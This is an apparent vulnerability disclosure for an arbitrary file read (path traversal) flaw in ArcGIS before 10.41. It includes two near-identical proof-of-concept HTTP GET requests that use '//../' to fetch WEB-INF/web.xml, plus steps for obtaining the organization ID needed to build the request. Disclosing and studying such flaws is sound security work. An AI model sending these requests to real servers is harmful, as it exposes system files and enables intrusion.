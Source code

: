 # arcgis arbitrary file reading vulnerability

# Vulnerability description

Through black box testing of the website, it was found that the arcgis system has an arbitrary file reading vulnerability.

An attacker can illegally obtain internal files of the system through ../ through the original directory of the system. This vulnerability has been tested in versions prior to 10.41.

The poc is as follows:

    GET /arcgis/manager/ID/js//../WEB-INF/web.xml HTTP/1.1
    Host: xx.xx.xx.xx
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
    Accept: */*
    Referer: http://xx.xx.xx.xx/arcgis/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: JSESSIONID=03439408E767FAF2B1A9FE416970E9C8
    Connection: close

The results are as follows, the contents of the web.xml file in the system are illegally obtained.

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/206872eb-3942-471c-a045-4153a879287f.png)

# Vulnerability details

Taking arcgis 10.22 version as an example to reproduce the vulnerability

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/17d7f10d-3b6f-4e78-a3d2-ebbff05a85f2.png)

Visit the URL [http://xx.xx.xx.xx:6070/arcgis/manager](http://xx.xx.xx.xx:6070/arcgis/manager) to enter the system management backend home page.

Obtain the ID value of the organization in the response packet. Here, we take organization ID 3552 as an example.

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/d9392442-c8bc-4ddb-8f5a-7febde59544b.png)

Construct a POC data packet and replace the ID value in the above data packet path

    GET /arcgis/manager/3552/js//../WEB-INF/web.xml HTTP/1.1
    Host: xx.xx.xx.xx
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
    Accept: */*
    Referer: http://xx.xx.xx.xx/arcgis/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: JSESSIONID=03439408E767FAF2B1A9FE416970E9C8
    Connection: close

Successfully obtained the content of web.xml file

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/51c73d41-b3d8-4e90-83da-5b063eed4204.png)

Organization test 2, taking version 10.41 as an example, the organization ID is 5686

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/d71cd373-b913-43d8-a183-62a65ec85700.png)

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/49439eca-05b8-45b9-ac35-995af60babfc.png)

Constructing a data package and successfully reading data

![image](https://alidocs.oss-cn-zhangjiakou.aliyuncs.com/res/1GXn4Bd5yNyyODQ4/img/93928eca-72b7-4158-aa01-eaeab0801078.png)